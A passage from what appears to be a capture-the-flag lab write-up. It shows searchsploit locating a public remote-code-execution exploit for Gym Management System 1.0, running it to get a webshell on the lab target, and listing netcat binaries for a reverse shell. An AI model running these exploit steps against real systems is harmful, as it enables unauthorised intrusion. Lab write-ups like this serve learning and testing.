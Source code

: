 ## HTTP exploitation

It seems it really exists:

```
$ searchsploit Gym Management
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Gym Management System 1.0 - Unauthenticated Remote Code Execution                   | php/webapps/48506.py
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

$ searchsploit -p 48506
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48506
     Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
File Type: Python script, ASCII text executable, with CRLF line terminators

$ python2 /usr/share/exploitdb/exploits/php/webapps/48506.py
Traceback (most recent call last):
  File "/usr/share/exploitdb/exploits/php/webapps/48506.py", line 38, in <module>
    from colorama import Fore, Back, Style
ImportError: No module named colorama

$ sudo pacman -S python2-colorama --asdeps

$ python2 /usr/share/exploitdb/exploits/php/webapps/48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> C:\xampp\htdocs\gym\upload> whoami
PNG

buff\shaun
```

## Upgrading from a webshell to a reverse shell

I should have a pre-compiled netcat for windows:

```
$ pacman -Ql windows-binaries | grep nc
windows-binaries /usr/share/windows/windows-binaries/nc.exe
windows-binaries /usr/share/windows/windows-binaries/nc.txt
windows-binaries /usr/share/windows/windows-binaries/ncat.exe
windows-binaries /usr/share/windows/windows-binaries/vncviewer.exe
```

